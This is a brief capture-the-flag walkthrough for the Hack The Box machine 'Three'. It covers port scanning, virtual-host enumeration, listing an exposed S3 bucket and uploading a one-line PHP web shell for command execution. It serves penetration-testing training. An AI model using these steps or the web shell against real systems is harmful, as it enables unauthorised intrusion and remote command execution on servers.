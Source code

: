 ![[Three.png]]
#HackTheBox #Starting-point #VeryEasy 
## Scan Port
```bash
nmap -sV {TARGET IP} -T4
```
The result is `22/tcp` as ssh service, and `80/tcp` as http service
## Connect to Three
Open browser and paste the target ip. On navigation, you can see contact tab, open it. In email section copy the domain name `...htb`. If you open now on your browser, the result will appear is unable to connect. To be able to connect, you can change the host on `/etc/hosts`.
```bash
#terminal
	sudo nano /etc/hosts

#nano hosts
	{TARGET IP} {DOMAIN NAME}
```
After that, let's try the domain
```bash
gobuster vhost -w {DOMAIN WORDLISTS} -u {TARGET DOMAIN NAME} --append-domain
```
the result is `s3.{TARGET DOMAIN NAME }`. if you open in your browser, its cant to connect, repeat the step above. If can connect, the result is `status: running`
```bash
aws configure
aws --endpoint=http://s3.{TARGET DOMAIN NAME} s3 ls
aws --endpoint=http://s3.{TARGET DOMAIN NAME} s3 ls {...}
```
create new file (ex : shell.php), contains `<?php system($_GET("cmd")); ?>`. We can upload the file to `{TARGET DOMAIN NAME}` with syntax :
```bash
aws --endpoint=http://s3.{TARGET DOMAIN NAME} s3 cp shell.php s3://{TARGET DOMAIN NAME}
```
Let's check on the browser, `http://{TARGET DOMAIN NAME}/shell.php`